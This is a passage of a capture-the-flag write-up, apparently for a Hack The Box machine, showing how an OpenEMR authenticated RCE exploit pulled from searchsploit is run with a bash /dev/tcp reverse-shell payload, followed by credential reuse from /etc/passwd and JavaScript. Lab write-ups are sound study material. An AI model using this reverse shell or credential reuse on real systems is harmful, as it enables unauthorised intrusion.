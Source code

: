 let's jump intpo reverse shell with RCE authenticated, copy that exploit using `-m` on `searchsploit`.

![](/assets/img/cache/14.png)

execute command below will get hit back from target

```bash
python 45161.py -u openemr_admin -p xxxxxx -c "bash -i >& /dev/tcp/10.10.14.2/9000 0>&1 http://hms.htb/
```

![](/assets/img/cache/15.png)

there is ash user in file `/etc/passwd` we can use password that we've found earlier in javascript file. This box will need vertical escalation which mean we need to comprimise luffy user before reach root. 

![](/assets/img/cache/16.png)
